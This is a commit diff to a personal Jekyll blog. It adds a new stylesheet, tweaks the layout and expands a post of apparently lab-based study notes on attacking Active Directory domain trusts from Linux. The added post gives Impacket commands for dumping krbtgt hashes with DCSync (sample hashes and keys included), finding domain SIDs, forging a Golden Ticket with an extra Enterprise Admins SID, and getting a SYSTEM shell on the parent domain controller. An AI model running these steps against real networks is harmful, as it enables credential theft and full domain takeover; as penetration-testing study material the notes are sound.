

Before and after one commit to daniel2005d/daniel2005d.github.io, a Jekyll site: the page built from _posts/2024-10-02-AD-forest.md, in a window 1280 px wide and 1400 px high, scrolled down 5058 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add more content

````diff
--- a/_layouts/app.html
+++ b/_layouts/app.html
@@ -5,7 +5,8 @@
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
-  <link rel="stylesheet" href="{{ site.baseurl }}/assets/css/styles.css">
+  <!-- <link rel="stylesheet" href="{{ site.baseurl }}/assets/css/styles.css"> -->
+  <link rel="stylesheet" href="{{ site.baseurl }}/assets/css/markdown.css">
   <link id="favicon" href="/assets/images/burpsuite.png" type="image/x-icon">
   <link rel="stylesheet"
     href="https://fonts.googleapis.com/css?family=Lato:400,700|Roboto+Slab:400,700|Inconsolata:400,700">
@@ -94,8 +95,8 @@
             });
         }
 
-        addIdsToHeadings();
-        createMenu();
+//        addIdsToHeadings();
+  //      createMenu();
 
 
   </script>
--- a/_posts/2024-10-02-AD-forest.md
+++ b/_posts/2024-10-02-AD-forest.md
@@ -83,8 +83,9 @@ Perform **DCSYNC** attack to get **NTLM** hash.
 Hash NTLM: 9d765b482771505cbe97411065964d5f
 ntlm- 0: 9d765b482771505cbe97411065964d5f
 lm  - 0: 69df324191d4a80f0ed100c10f20561e
+```
 
-```
+
 
 ### Get SID Domain
 
@@ -122,4 +123,81 @@ From here, it is possible to access any resources within the parent domain, and
 (PS)> klist
 ```
 
-# Performing a DCSync Attack
+# Attacking Domain Trusts - Child -> Parent Trusts From Linux
+
+```bash
+secretsdump.py [child domain]/[username]@[child domain address] -just-dc-user [child domain]/[user]
+```
+
+**EXAMPLE**
+```bash
+secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
+```
+
+**OUTPUT**
+We need use this krbtgt:502:aad3b435b51404eeaad3b435b51404ee:**9d765b482771505cbe97411065964d5f**:::
+
+```bash
+[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
+[*] Using the DRSUAPI method to get NTDS.DIT secrets
+krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
+[*] Kerberos keys grabbed
+krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
+krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
+krbtgt:des-cbc-md5:fee04c3d026d7538
+[*] Cleaning up
+```
+
+Next, we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format DOMAIN_SID-RID. For example, from the output below, we can see that the SID of the lab_adm user would be S-1-5-21-2806153819-209893948-922872689-1001.
+
+## Looking for the Domain SID
+
+```bash
+lookupsid.py [child domain]/[user]@[address] | grep "Domain SID"
+```
+**Example**
+```bash
+lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
+```
+
+## Grabbing the Domain SID & Attaching to Enterprise Admin's RID
+```bash
+lookupsid.py [principal domain]/[username]@[address] | grep -B12 "Enterprise Admins"
+```
+**Example**
+```bash
+lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
+```
+
+Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by -domain-sid) and the parent domain (specified by -extra-sid).
+
+## Constructing a Golden Ticket using ticketer.py
+
+```bash
+ticketer.py -nthash [ntlm hash] -domain [child domain] -domain-sid [SID]-519 -extra-sid [enterprise admin SID] hacker
+```
+Append sufix number to extra-sid, like says on [https://adsecurity.org/?p=1001](https://adsecurity.org/?p=1001)
+
+The ticket will be saved down to our system as a [credential cache (ccache) file](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html), which is a file used to hold Kerberos credentials. Setting the **KRB5CCNAME** environment variable tells the system to use this file for Kerberos authentication attempts.
+
+## Setting the KRB5CCNAME Environment Variable
+
+```bash
+export KRB5CCNAME=hacker.ccache
+```
+
+We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.
+
+## Getting a SYSTEM shell using Impacket's psexec.py
+
+```bash
+psexec.py [child domain]/hacker@[FQDN] -k -no-pass -target-ip [domain IP address]
+```
+
+Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:
+
+# Performing the Attack with raiseChild.py
+
+```bash
+raiseChild.py -target-exec [address] [child domain]/[adminuser]
+```
--- /dev/null
+++ b/assets/css/markdown.css
@@ -0,0 +1,141 @@
+/* General styling */
+body {
+    font-family: "Helvetica Neue", Helvetica, Arial, sans-serif;
+    line-height: 1.6;
+    background-color: #f9f9f9;
+    color: #333;
+    padding: 20px;
+    max-width: 800px;
+    margin: 0 auto;
+}
+
+/* Headings */
+h1, h2, h3, h4, h5, h6 {
+    font-weight: bold;
+    margin: 1.5em 0 0.5em;
+    color: #333;
+}
+
+h1 {
+    font-size: 2.4em;
+    border-bottom: 2px solid #ddd;
+    padding-bottom: 0.2em;
+}
+
+h2 {
+    font-size: 2em;
+    border-bottom: 1px solid #ddd;
+    padding-bottom: 0.2em;
+}
+
+h3 {
+    font-size: 1.6em;
+}
+
+h4 {
+    font-size: 1.4em;
+}
+
+h5 {
+    font-size: 1.2em;
+}
+
+h6 {
+    font-size: 1em;
+    color: #777;
+}
+
+/* Paragraphs */
+p {
+    margin: 1em 0;
+}
+
+/* Links */
+a {
+    color: #0366d6;
+    text-decoration: none;
+}
+
+a:hover {
+    text-decoration: underline;
+}
+
+/* Blockquotes */
+blockquote {
+    margin: 0;
+    padding-left: 1em;
+    border-left: 4px solid #ccc;
+    color: #555;
+    font-style: italic;
+    background-color: #f8f8f8;
+}
+
+/* Code blocks */
+pre, code {
+    font-family: "Courier New", Courier, monospace;
+    background-color: #f4f4f4;
+    border-radius: 4px;
+    padding: 2px 4px;
+    color: #d63384;
+}
+
+pre {
+    padding: 1em;
+    overflow: auto;
+}
+
+code {
+    background-color: #f4f4f4;
+    padding: 0.2em 0.4em;
+    border-radius: 4px;
+}
+
+/* Lists */
+ul, ol {
+    margin: 1em 0;
+    padding-left: 2em;
+}
+
+ul {
+    list-style-type: disc;
+}
+
+ol {
+    list-style-type: decimal;
+}
+
+/* Horizontal rules */
+hr {
+    border: none;
+    border-top: 1px solid #ccc;
+    margin: 2em 0;
+}
+
+/* Images */
+img {
+    max-width: 100%;
+    height: auto;
+    display: block;
+    margin: 1em 0;
+}
+
+/* Tables */
+table {
+    border-collapse: collapse;
+    margin: 1em 0;
+    width: 100%;
+}
+
+table, th, td {
+    border: 1px solid #ddd;
+}
+
+th, td {
+    padding: 8px;
+    text-align: left;
+}
+
+th {
+    background-color: #f5f5f5;
+    font-weight: bold;
+}
````
Also changed, not shown: _posts/2024-09-20-NoPAC_ActiveDirectory.md (+1 -2 lines).
